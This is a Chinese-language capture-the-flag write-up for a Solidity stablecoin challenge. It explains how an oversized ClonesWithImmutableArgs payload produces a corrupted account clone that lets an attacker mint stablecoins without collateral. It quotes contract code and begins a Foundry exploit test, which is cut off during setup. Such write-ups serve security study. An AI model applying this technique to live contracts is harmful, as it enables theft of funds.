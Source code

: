 **Code**

- `SystemConfiguration`：存储系统配置和授权信息
- `AccountManager`：管理账户的创建和稳定币的铸造/销毁
- `Account`：个人账户合约，处理存款，提款和债务
- `Stablecoin`： 稳定币

**Solution**

问题处在`AccountManager`合约中使用`ClonesWithImmutableArgs`创建新用户时候，在`ClonesWithImmutableArgs`的注释中我们可以看到:

```solidity
 /// @notice Creates a clone proxy of the implementation contract, with immutable args
 /// @dev data cannot exceed 65535 bytes, since 2 bytes are used to store the data length
```

用来`Clone`的`data`大小不能超过`65535`字节，当超过的时候，可能会部署一个损坏的合约。

正常的话如果我们要`mint`超过`1_000_000_000_000` `ether`的`stablecoin`，只有被`System` `Configuration`授权的合约才可以`mint`，只有`AccountManager`合约被授权了，而在`AccountManager::mintStablecoins`，会验证是否是`onlyValidAccount`，只有是`ValidAccount`才可以`mint`，同时还会检查账户的债户危机:

```solidity
function isHealthy(uint256 collateralDecrease, uint256 debtIncrease) public view returns (bool) {
        SystemConfiguration configuration = SystemConfiguration(_getArgAddress(0));

        uint256 totalBalance = address(this).balance - collateralDecrease;
        uint256 totalDebt = debt + debtIncrease;

        (, int256 ethPriceInt,,,) = AggregatorV3Interface(configuration.getEthUsdPriceFeed()).latestRoundData();
        if (ethPriceInt <= 0) return false;

        uint256 ethPrice = uint256(ethPriceInt);

        return totalBalance * ethPrice / 1e8 >= totalDebt * configuration.getCollateralRatio() / 10000;
    }
```

所以正常情况下，我们没有那么多的ETH，根本不可能mint那么多的stablecoin。

当我们利用了上面提到的漏洞，我们创造一个受损的合约，因为这种情况下虽然合约的地址会被创建，但是合约字节码被截断了或者损坏，当合约字节码被损坏时，所有的函数调用实际上都会回退到合约的 fallback 函数（如果存在的话）或者直接失败。这就导致了 increaseDebt 函数变成了一个"幻影函数"。从外部看，这个函数似乎存在，但实际上调用它不会执行任何代码。

从而大量的mint stablecoin。

**Exp**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

import "../src/dai-plus-plus/Challenge.sol";
import "../src/dai-plus-plus/AccountManager.sol";
import "../src/dai-plus-plus/Stablecoin.sol";
import "../src/dai-plus-plus/SystemConfiguration.sol";
import {Account as Acct} from "../src/dai-plus-plus/Account.sol";

contract DaiPlusPlusTest is Test {
    Challenge challenge;
    SystemConfiguration configuration;
    AccountManager manager;

    function setUp() public {
        configuration = new SystemConfiguration();
        manager = new AccountManager(configuration);

```